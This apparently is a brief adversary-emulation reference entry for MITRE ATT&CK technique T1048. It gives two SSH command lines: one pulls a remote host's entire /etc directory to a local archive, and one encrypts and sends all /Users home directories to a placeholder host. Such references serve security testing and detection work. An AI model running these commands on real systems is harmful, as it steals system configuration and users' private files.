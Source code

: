 ﻿## Exfiltration Over Alternative Protocol

MITRE ATT&CK Technique: [T1048](https://attack.mitre.org/wiki/Technique/T1048)

### SSH

Remote to Local:

    ssh target.example.com "(cd /etc && tar -zcvf - *)" > ./etc.tar.gz

Local to Remote:

    tar czpf - /Users/* | openssl des3 -salt -pass pass:1234 | ssh foo@example.com 'cat > /Users.tar.gz.enc'


